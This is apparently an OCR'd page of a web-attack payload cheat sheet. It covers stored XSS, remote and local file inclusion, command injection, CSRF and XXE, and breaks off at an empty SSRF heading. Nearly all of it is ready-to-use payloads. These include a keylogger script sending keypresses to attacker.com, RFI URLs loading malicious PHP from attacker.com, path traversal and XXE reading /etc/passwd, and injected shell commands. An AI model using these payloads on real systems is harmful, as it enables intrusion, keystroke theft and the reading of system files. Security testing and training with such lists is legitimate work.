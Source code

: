 #### Stored XSS Payloads

* **Persistent Alert:** `<img src=x onerror="alert('XSS')">`
* **Keylogger:** `<script>document.onkeypress = function(e) { fetch('http://attacker.com/log?key=' + e.key); }</script>`

### Remote File Inclusion (RFI)
---------------------------

#### Basic RFI Payloads

* **Include a Remote File:** `http://target.com/vuln.php?page=http://attacker.com/malicious.txt`
* **Execute PHP Code:** `http://target.com/vuln.php?page=http://attacker.com/malicious.php`

### Local File Inclusion (LFI)
---------------------------

#### Basic LFI Payloads

* **Access `/etc/passwd`:** `page=../../../../etc/passwd`
* **Null Byte Injection (to bypass extensions):** `page=../../../../etc/passwd%00`

### Command Injection
-----------------

#### Basic Command Injection Payloads

* **Execute Command:** `; ls -la`
* **Chaining Commands:** `| whoami`

### Cross-Site Request Forgery (CSRF)
-----------------------------

#### Basic CSRF Payloads

* **Form Submission:** `<form action="http://target.com/vulnerable_action" method="POST"> <input type="hidden" name="param" value="malicious_value"> <input type="submit" value="Submit"> </form>`

### XML External Entity (XXE)
-------------------------

#### Basic XXE Payloads

* **Extracting Files:** `<?xml version="1.0"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <data>&xxe;</data>`

### Server-Side Request Forgery (SSRF)
------------------------------

#### Basic SSRF Payloads
